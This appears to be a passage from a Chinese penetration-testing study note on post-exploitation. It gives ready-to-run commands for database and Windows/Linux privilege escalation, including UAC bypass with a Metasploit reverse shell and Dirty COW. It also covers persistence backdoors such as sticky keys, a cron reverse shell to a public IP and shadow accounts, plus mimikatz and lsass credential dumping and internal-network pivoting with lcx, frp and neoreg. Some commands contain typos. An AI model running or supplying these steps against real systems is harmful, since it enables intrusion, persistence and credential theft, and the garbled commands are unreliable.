Set ob=GetObject(os)         '得到adsi接口,绑定 
Set oe=GetObject(os&"/Administrators,group")       '属性,admin组 
Set od=ob.Create("user", "ichunqiu")         '建立用户 
od.SetPassword "123.com"        '设置密码 
od.SetInfo         '保存 
Set of=GetObject(os&"/ichunqiu",user)        '得到用户 
oe.add os&"/ichunqiu"
```


#### 方法二

- 连接mysql服务器,进入数据库,`show tables`默认情况下`test`中没有任何表存在
- 进入`test`创建一个新的表

```sql
create table a(cmd text);
```

- 在表中插入内容,建立`vbs脚本`

```cmd
insert into a values("set wshshell=createobject(""wscript.shell"")");
insert into a value("a=wshshell.run(""cmd.exe /c net user tomato tomato /add"",0)");
insert into a value("a=wshshell.run(""cmd.exe /c net localgroup administrators tomato /add"",0)");
```

- 输出表为一个vbs文件

```sql
select * from into dumpfile “c:/Documents and Settings/All Users/开始/程序/启动/1.vbs”
```

- 重启

****

#### mssql数据库提权

- 利用条件:获得`sa账号密码`或者与sa相同权限的用户

- 必须可以某种方式执行sql语句

  ```cmd
  # 获取所有数据库名
  select name from master.dbo.sysdatabases;
  # 判断是否为sa
  select is_srvrolemember('sysadmin');
  #判断是否有public权限
  select is_srvrolemember('public');
  #判断当前用户读写权限
  select is_srvrolemember('db_owner');
  #查看xp_cmd是否开启,为1则开启
  select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell';
  #执行命令
  exec master..xp_cmdshell 'net user tomato tomato /add';
  exec master..xp_cmdshell 'net locagroup administrators tomato /add';
  ```

****

#### Bypass UAC

- UAC是微软引入的一种安全机制
- 通过UAC应用程序和任务可以在非管理员账户的安全上下文中运行,除非管理员特别授予管理员级别的系统访问权限
- UAC可以阻止未授权的应用程序进行自动安装,并防止无意中更改系统设置

```cmd
#涉及UAC授权的
1.配置windows update
2.增加或删除用户账户
3.改变用户的账户类型
4.改变UAC设置
5.安装AcriveX
6.安装或移除程序
7.安装设备驱动程序
8.设置家长控制
9.将文件移动或复制到Program Files或Windows目录
10.查看安全套用户文件夹
```

#### msf的bypassuac模块

```cmd
exploit/windows/local/bypassuac //进程注入,利用受信任的发布者证书绕过(生成关闭uac的shell)
exploit/windows/local/bypassuac_injection //内存注入
exploit/windows/local/bypassuac_eventvwr	//劫持注册表中的特殊键,在启动windows fodhelper.exe应用程序时调用自定义命令绕过
```

#### 示例1

```cmd
# 进入msf
msfconsile
# 选择反弹shell模块
use payload/windows/meterpreter/reverse_tcp
# 设置监听主机和端口
set LHOST <你的IP>
set LPORT <监听端口>
# 生成可执行文件
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.71.50 LPORT=4444 -f exe -o shell.exe
#如果不在桌面上，可以用指令查找位置
find / -name shell.exe 2>/dev/null

# 重新设置监听
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST 192.168.71.50
set LPORT 4444
exploit
# 将生成的exe上传到目标机器
# 执行exe后,反弹成功shell
getuid
backgroud #显示保存的session1

# 使用bypass模块
use exploit/windows/local/bypassuac
set payload windows/meterpreter/reverse_tcp
set lhost 192.168.71.50		#设置攻击机ip
set session 1				#指向刚才后台运行的session
exploit						#执行该次操作
# 这里生成了新的session2
getuid #显示为普通权限
#提权
getsystem
```

#### 示例2

> 使用msf-RunAs模块

- 该模块使用`exploit/windows/local/ask`模块，创建一个**可执行文件**，运行该可执行文件后会**发起提升权限的请求**，提示用户**是否继续运行**，如果用户继续运行，则会返回一个高权限的Meterpreter shell

1. 前面提权步骤相同，成功获得session4

   

2. 使用对应模块，成功等待目标主机回应

```bash
use exploit/windows/local/ask		#使用RunAs模块
set session 4		#获取shell的session
run		
```


3.目标主机成功弹窗


4.目标主机点击确认后，kali成功进行`meterpreter shell`


5.成功提权！


****

#### 手动提权

- 使用`mstsc`成功连接目标主机，并且创建后门账户，并赋予管理员权限

- cmd命令行使用`systeminfo`查看是否打了相应的补丁

```cmd
KB4525235/KB4525233
```

1.寻找到该漏洞对应的EXP，并上传到目标主机上，使用管理员权限运行


2.查看证书信息


3.进一步操作


4.将弹出的页面另存为


5.通过浏览器打开命令行


6.成功以高权限用户执行


****

#### 错误系统配置

- 服务**未启动**：使用任意服务替换原来的服务，然后重启服务
- 服务**正在运行且无法终止**：利用dll劫持技术并尝试重启

#### 注册表

- 注册表键**AlwaysInstallElevated**是一个策略设置项，windows允许低权限用户以**System权限**安装文件，如果启用次策略设置项，那么任何权限用户都能够以**NT AUTHORITY/SYSTEM权限**来安装**恶意的MSI**(Microsoft Windows Installer)文件

- `打开组策略`

```cmd
gpedit.msc
```


`图形化启用`


```cmd
# 或者使用命令行启用
reg add HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated /t REG_DWORD /d 1
```

-  `安装msi文件`

-  通过命令行调用msiexec安装msi文件，msi文件内包含要执行的Payload，Payload将会以System权限执行

```bash
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;Get-RegistryAlwaysInstallElevated}"
```

- `导出msi文件`

```bash
powershell.exe -exec bypass -Command "&{Import-Module .\PowerUp.ps1;WriteUserAddMSI}"
```

- `命令执行`

```cmd
msiexec /q /i UserAdd.msi

/i  安装操作
/q	隐藏安装界面
```

#### Trusted Service Paths

- Windows服务通常是以**System权限运行**的，在解析服务的二进制文件对应的**文件路径中的空格**时，也会**以系统权限进行解析**，因此能够利用该特性进行权限提升

#### 特性

- 对于路径`C:\Program File\Some Folder\Service.exe`，Windows会按照如下顺序进行解析

- ```cmd
  C:\Program.exe
  C:\Program File\Some.exe
  C:\Program File\Some Folder\Service.exe
  ```

- 因此，可以在**特定的目录**，上传**适当命名的恶意可执行文件**，从而在服务重启时，以System权限运行

#### 提权流程

1. 假设已经获得目标机的低权限Meterpreter shell，尝试通过TrustedService Paths漏洞来尝试实现权限的提升

- 服务的可执行文件的路径**没有用双引号封闭**，并且`包含空格`

```apl
#列举受害者机器上所有没有加引号的服务路径
wmic service get name,displayname,pathname,startmode|findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v ""
```


2.检验目标文件夹是否有**写入权限**，使用`icacls`,依次检查是否具有权限

- M表示修改，F表示完全控制，CI表示丛书容器将继承访问控制项，OI表示从属文件将继承访问控制项，这意味着对目录有读、写、删除其下的文件、删除该目录下的子目录的权限


3.在Metasploit中搜索trusted_service_path模块，设置相关参数并攻击，攻击成功后弹回高权限Meterpreter shell


####  其他错误配置

- 利用MSF的service_permissions模块(需要提前获得Meterpreter shell)、自动安装配置文件、利用计划任务等

****

#### Linux内核提权

> 1.`whoami`判断权限
>
> 2.根据系统版本查找漏洞,并利用对应的`exp`
>
> 3.翻阅目录,根据linux敏感目录和第三方软件,查找对应的敏感文件
>
> 获取交互式命令行`python -c 'import pty; pty.spawn("/bin/bash")'`

| 命令              | 说明                   |
| ----------------- | ---------------------- |
| uname -a          | 打印所有可用的系统信息 |
| uname -r          | 内核版本               |
| uname -m          | 查看系统内核架构       |
| cat /proc/version | 内核信息               |
| cat /etc/issue    | 发行版本信息           |
| whoami            | 当前用户名             |
| id                | 当前用户信息           |

- 搜索对应的exp

> https://www.exploit-db.com/
>
> https://www.github.com/SecWiki/linux-kernel-exploits

****

#### 脏牛提权

- 上传`dirty.c`文件到目标

```bash
#使用下面的命令编译
gcc -pthread dirty.c -o dirty -lcrypt
```

- 执行

```bash
# +新增用户密码
./dijrty 445566
# 查看是否提权成功
cat /etc/passwd
# 销毁(覆盖)
mv /tmp/passwd.bak /etc/passwd
```

#### 示例


- 覆盖删除痕迹

```bash
mv /tmp/passwd.bak /etc/passwd
```


****

#### Linux suid自定义文件提权

- 编辑一个`demo.c`文件

```c
#include<unistd.h>
void main(){
setuid(0);
setgid(0);
system("su - tomato");
}
```

- 编译

```bash
gcc demo.c -o demo
```

- 给`demo`文件添加`s权限`

```bash
chmod u+s demo
&
chmod 4777 demo
```


```bash
[root@localhost tmp]# echo "/bin/bash" > su
[root@localhost tmp]# cat su
/bin/bash
[root@localhost tmp]# chmod 777 su
[root@localhost tmp]# export PATH=/tmp:$PATH
[root@localhost tmp]# echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/root/bin
```


****

#### Linux find_suid提权

```bash
[root@localhost /]# which find
/usr/bin/find
[root@localhost /]# chmod u+s /usr/bin/find
[root@localhost /]# ll /usr/bin/find
-rwsr-xr-x. 1 root root 199304 10月 31 2018 /usr/bin/find
[root@localhost /]# su test
[test@localhost /]$ find root -exec "cat whoami" \;
root
```

#### Linux Mysql UDF提权

- 和windows类似

****

### 权限维持

#### Windows后门

> 常见的后门:`shift后门`,`启动项&计划任务`,`映像劫持`,`影子账户`,`远控软件`

#### 粘滞键

- 在Windows系统按5下`shift`后,Windows就运行了`System32`下的`sethc.exe`,启动`粘滞键`
- 粘滞键的位置:`C:\Windows\system32\sethc.exe`

```cmd
cd c:/windows/system32/
takeown /f sethc.exe
icacls sethc.exe /grant %username%:F
copy cmd.exe sethc.exe 
```

****

#### 映像劫持

- 注册表中的`位置`

```cmd
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\
```

- 在该目录下添加一个`sethc.exe`


- 也可以使用`命令行`创建

```cmd
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\Windows\System32\cmd.exe" /f
```

****

#### 计划任务后门

- 每分钟执行一次 `cmd`

```cmd
schtasks /create /tn "chrom" /tr cmd.exe /sc minute /mo 1
```

****

#### 注册表自启动后门

- 位置

```cmd
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```


- 这样就实现开机自启动

```cmd
# 也可以用
reg delete "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v "StartupCMD" /f
```

****

#### 创建影子用户

- 创建一个`隐藏的账户`

```cmd
net user smile$ 334455 /add
```

- 找到`注册表`(需要给权限)

```cmd
HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\
```


- 将`administrator`对应的`F`值`复制`到`后门用户`的`F`值


- `导出`,然后删除`test$`,再删除创建的用户


```cmd
net user smile$ /del
```


- 远程连接成功!

****

#### Linux后门

> `计划任务`,`ssh公钥`,`ssh软连接`,`Prism后门`

#### 计划任务反弹shell

- bash命令行编写计划任务

```bash
# 进入编辑器
crontab -e
#插入下面的内容
bash -c 'exec bash -i &>/dev/tcp/8.137.60.154/1234 <&1'
```

- 监听,等待反弹

```bash
nc -lvp 7777
```


****

#### SSH公钥免密

- 使用命令在本地生成`公钥`

```cmd
ssh-keygen -t rsa
```


- 将`密钥`复制到目标机器

```cmd
# 在物理机写公钥
scp C:\Users\24937\.ssh\id_rsa.pub root@192.168.193.250:/root/.ssh/authorized_keys
```


- 尝试`免密码`连接


****

#### SSH软连接后门

- 使用`sshd`建立软连接,用任意密码实现登录
- 原理:利用`PAM`配置文件的作用,将sshd文件软连接名称设置为`su`,这样应用在启动过程中会去PAM配置文件中寻找是否存在对应名称的配置信息(su),su在pam rootok只检测uid 0 即可认证成功,也可以使用其它软连接名字,但是文件`必须得在/etc/pam.d目录下存在`    

- 特点:`隐蔽性较弱`,本地查看`端口`会暴露,能绕过一些网络设备的安全流量监控                                               

- 创建`软连接`,设置`监听端口`

```bash
# 建立软连接
ln -sf /usr/sbin/sshd /tmp/su
# 设置监听端口
/tmp/su -oPort=6666
# 连接ssh
ssh root@192.168.x.x -p 8080
```

…

- `inetd/xinetd`

```bash
vim /etc/inetd.conf
daytime stream tcp nowwait root /bin/bash bash -i
sudo systemctl start openbsd-inetd
nc -lvvp 192.168.x.x 13
```


#### Prism后门

- 编译`prism.c`文件

```bash
gcc -DDETACH -Wall -s -o prism prism.c
```

- 查看`prism`后门的配置信息

```bash
./prism Inf0
```


- 将后门传到kali,运行`sendPacket.py`脚本

```bash
sudo python ./sendPacket.py 目标靶机IP 连接密码 攻击机IP 攻击机监听端口
sudo python ./sendPacket.py 192.168.66.251 p4ssw0rd 192.168.66.1 4444
nc -lvvp 1234
```

****

### 获取明文密码

#### 利用wce获取hash

- `getshell`以后上传`wce.exe`


- 上传`exe`上线`cs`


****

#### 使用QuarksPWDump获取hash

- 执行命令

```cmd
QuarksPwDump.exe -dhl
```


****

#### 常规免杀获取hash

#### 使用`注册表`导出hash,本地破解

- 执行命令

```cmd
reg save HKLM\SYSTEM sys.hiv
reg save HKLM\SAM sam.hiv
reg save HKLM\security security.hiv
```

****

- 执行`命令`(这里由于靶机没有安装net对应版本环境所以没有成功!)

```cmd
Secretsdump.exe -sam sam.hiv -security.hiv -system sys.hiv LOCAL
```


****

#### 导出sam文件

- 适用于`域控`数量很大的情况

```cmd
shadow copy
```

****

#### 其它方式

```cmd
procdump+mimikatz
Powershell+mimikatz
Powershell+getpasshash
....
```


```cmd
# windows 2008 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2012 获取明文密码
# 1.修改注册表
reg add hkey_local_machine\system\currentcontrolset\control\securityproviders\wdigest\ /v uselogoncredential /t reg_dword /d 1 /f
# 2.锁屏或注销,让用户重新登录
# 3.procdump获取内存中的密码信息,将lsass.exe下载到本地
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
# 使用mimikatz读取密码信息
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt

# windows 2016 获取明文密码
# 修改注册表开启UseLogonCredential,通过修改注册表让 Wdigest Auth 保存明文密码
reg_add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders|WDigest /v UseLogonCredential /t 
REG_DWORD /d 1 /f
# 锁屏...
# 获取明文密码
mimikatz.exe ""privilege::debug"" ""sekurlsa::logonpasswords full"" exit >>log.txt
```

****

### 内网转发

- 使用一些技术,通过`中间服务器进行中转`,将内部的`端口映射`到公网ip上,或者将`内部端口转发`到外部服务器,供外网用户访问
- 内网转发的三种方式
  - 端口转发:用于目标机器对`某一端口的访问`进行`限制`,可以将本机的端口或者本机可以访问到的任意主机的`端口转发`到任意一台需要访问的公网ip上
  - 端口映射:将一个`内网`无法访问的端口`映射`到`公网`的某个端口,进行攻击
  - 代理转发:主要用于在目标机器上`做跳板`,进而对内网进行攻击

****

#### 端口转发

- 原理:将一个`端口`转发到任意一台可以访问的到的`公网ip`上
- 端口转发工具`lcx`:基于`socket`套接字实现的端口转发工具,有Windows和Linux两个版本,Linux版本为`porttmap`

```cmd
#转发端口
lcx.exe -slave 公网ip 端口 内网ip 端口
#监听端口
lcx.exe -listen 转发端口 本机未被占用端口
#映射端口
lcx.exe -tran 映射端口号 目标ip 目标端口
```

****

##### 本地端口映射

- 如果目标服务器由于防火墙限制,部分端口的`数据无法通过`防火墙,可以将目标服务器`相应的端口的数据`传到防火墙`允许的其它端口`

```cmd
#映射端口
lcx.exe -tran 映射端口号 目标ip 目标端口
```

- 例如:
  - `3389`端口流量无法通过防火墙,那么可以将改目标主机的端口`3389`端口流量转发到其它允许的端口号上如`6666`端口
  - 远程桌面连接 `目标主机ip:6666`

****

##### 远程端口转发

- 访问规则:攻击者可以访问web服务器,web服务器可以访问内网的服务器,攻击者不可以访问内网服务器
- 假设拿到了一个web服务器的权限,它可以访问内网,现在要`通过web服务器访问到内网中的主机资源`,进一步渗透,这时需要`web服务器`当作中间的`跳板`,也就是`代理的作用`让攻击者访问到内网的主机

****

#### lcx基本使用

#### 实验一

- 环境:`80`端口不对外开放,但是`8080`端口对外开放且未被占用

- 目前8080端口未被占用

  

```cmd
lcx.exe -tran 8080 127.0.0.1 80
```


- 现在可以正常访问了

****

#### 实验二

```cmd
# 外网服务器开启监听
lcx.exe -listen 4444 12345
```


```cmd
# 将被控主机端口转发到外网服务器
lcx.exe -slave 公网ip 端口 被控服务器ip 端口
lcx.exe -slave 192.168.71.54 4444 127.0.0.1 3389
```


```cmd
# 在外网服务器连接本地12345端口
127.0.0.1:12345
```


****

#### frp的基本使用

- 服务器修改`frps.ini`文件

```cmd
[common]
bind_port = 7000	#frp服务器监听端口
dashboard_port=7500	#web后台监听端口
dashboard_user=admin	#web后台用户名和密码
adshboard_pwd=admin	
token=123456	#用于客户端和服务端连接的口令
```

- 服务器运行


- 客户端设置

```cmd
[common]
server_addr = 8.137.60.154	#服务器ip
server_port = 7000	#服务器端口
token=123456
[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 3389	#本地端口
remote_port = 7001	#规则开放的端口
```


****

#### portfwd的基本使用

- add/delete

```CMD
portfwd add -l 6666 -p 3389 -r 192.168.71.54
```


- 列出

```cmd
portfwd list
```


- 移除本地所有端口

```cmd
portfwd flush
```

- 连接

****

### 边界带理

#### 正向代理

- 用于代表`内部网络用户`向`外部服务器`发出连接请求,并接受响应结果,执行`代理功能的服务器`称为代理服务器
- 使用代理服务器访问外部网络时,客户端必须在局域网设置中指明`代理服务器的地址`以及要代理的服务`端口号`
- 代理`客户端`,`隐藏真实客户`,为客户端收发请求,使真实客户端对服务器不可见
- 一个局域网内的所有用户可能被一台服务器做了正向代理,由该服务器负责http请求

****

#### 反向代理

- 代表`外部网络`用户向`内部服务器发出请求`,即接收来自外部服务器的连接请求,并将这些请求`转发给内部网络上的服务器`,然后将从内部服务器上`得到的响应返回给外部的请求连接客户`
- 执行反向代理服务的服务器称为反向代理服务器,反向代理服务器对外部用户`表现为一个服务器`

- 代理`服务器`,`隐藏真实服务器`,将用户的请求分发到空闲的服务器上
- 用户和负载均衡服务器直接通信,即`用户解析服务器域名`时得到是`负载均衡服务器ip`

****

#### Socks代理

- 当通过代理服务器访问到一个网址时,socks服务器是起到了一个`中间人的身份`,他分别与`浏览器/被访问的网址`通讯然后将`获取到的结果告知一方`
- 配置好socks代理后,无需制定被访问目标,直接在浏览器的地址栏`输入地址`就能访问任意网站
- `原理`:socks代理中有一个`交互协议`,当准备访问一个网站时并敲击回车时,浏览器会先发送一个`被访问目标的基本信息`给`socks服务端`
- socks服务端`解析`了这个信息以后,会`代替浏览器`去访问目标网站,并将`访问结果回复`给浏览器端

****

#### 代理和转发`区别`

- `代理`:需要socks协议支持,`一对多`帮他人访问网络
- `端口转发`:无需协议支持,`一对一`,帮他人访问主机的某个端口

****

#### neoreg工具

- neoreg主要是把`内网服务器的端口`通过`http/https隧道`转发到本机,形成一个回路
- 用于目标服务器`在内网`或做了`端口策略`的情况下连接目标服务器内部开放端口
- 利用webshell建立一个`socks代理`进行`内网穿透`,服务器必须支持aspx,php,jsp等一种
- neoreg分为`服务端`和`客户端`,两部分组成,服务端有aspx,php,jsp,客户端则由python编写
- 工作`原理`:`python`客户端在本地`监听一个端口`,`提供socks服务`,并将数据通过`http/https`发送到服务端上,并从服务端上用`socks实现转发`

```cmd
 #设置密码生成 tunnel.(aspx|ashx|jsp|jspx|php) 并上传到WEB服务器
 python neoreg.py generate -k password
 
 #使用 neoreg.py 连接 WEB 服务器，在本地建立 socks5 代理
 python3 neoreg.py -k password -u http://xx/tunnel.php
```

****

#### msf路由转发

- MSF中自带路由转发功能,在已经获取到`meterpreter shell`的基础上添加一条去往`内网`的路由
- 直接使用`msf`去访问原本不能直接访问到的内网资源,当路由可达了使用msf进行内网探测
- `获得msf session会话`->`获取内网地址`->`在msf中添加内网网段路由`

```cmd
#添加去往内网网段的转发路由
run autoroute -s 内网网段
#查看路由添加情况
run autoroute -p
```

****

#### proxychains代理(linux)

- 在使用工具之前对工具进行配置,配置文件:`/etc/proxychains.conf`
- 删除`dynamic_chain`前面的注释
- 在底部添加要代理的服务器

```cmd
#测试代理服务器能否正常工作
cp /usr/lib/proxychains3/proxyresolv /usr/bin/
proxyresolv www.baidu.com

#使用proxychains启动任意软件
proxychains xxxxx
```

****

#### Windows代理

- `Proxifier`
- `Sockscap`

****

